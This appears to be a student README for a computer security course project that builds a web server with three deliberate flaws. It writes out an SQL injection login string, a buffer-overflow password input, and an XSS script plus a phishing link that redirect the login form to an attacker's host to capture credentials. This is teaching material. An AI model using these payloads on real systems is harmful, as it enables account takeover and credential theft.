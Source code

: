 # Computer system security - Project 2  : the 3-flaws webserver
**Group #** : 5

**Members** :
- Laurent MINY
- Etienne DE JAMBLINNE DE MEUX

The whole project was made and tested on a Debian Jessie 8 x64 with Xampp installed and Firefox ESR 45.7.0

## Injection SQL
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The injection can be done by entering any password and the following username :
```
admin' or '1'='1' #
```

## Buffer Overflow
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The buffer overflow is done by rewriting the variable 'int pwd_matches' with garbage. And everything different over value 0 means "Password valid". So we can enter the username 'admin' (guessed) and the following as password (29 * 'h') :
```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhh
```

**Remarks** :
- the file 'check-login' and 'buff3r-ov3rfl0w' must have the correct rights
- the file 'buff3r-ov3rfl0w' has to be compile for your system (more info in the source file 'buff3r-ov3rfl0w.c'). The one supplied is compiled on Debian Jessie 8 x64.

## XSS

The XSS (Cross-site scripting) is done by entering as username the following javascript (and any password) :

```javascript
<script>
document.addEventListener("DOMContentLoaded", function(event) { // To wait for DOM to be ready
  document.forms["form-login"].action="http://www.attacker-website.com"; // To send to login form to the website of an attacker.
});
</script>
```

If the attacker website is lminy.alwaysdata.net, with a little bit of social engineering, he could send an email to the admin my saying that there is a problem on [this page](http://localhost/homework2/?username=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2Cfunction%28a%29{document.forms[%22form-login%22].action%3D%22http%3A%2F%2Flminy.alwaysdata.net%22}%29%3B%3C%2Fscript%3E&password=pwd). The user is tricked to enter again his login and password and the evil is done!

The attacker can then check its apache logs to know the username & password of the admin :

[logo]: ./lminy.alwaysdata.net.log.png "Apache logs"

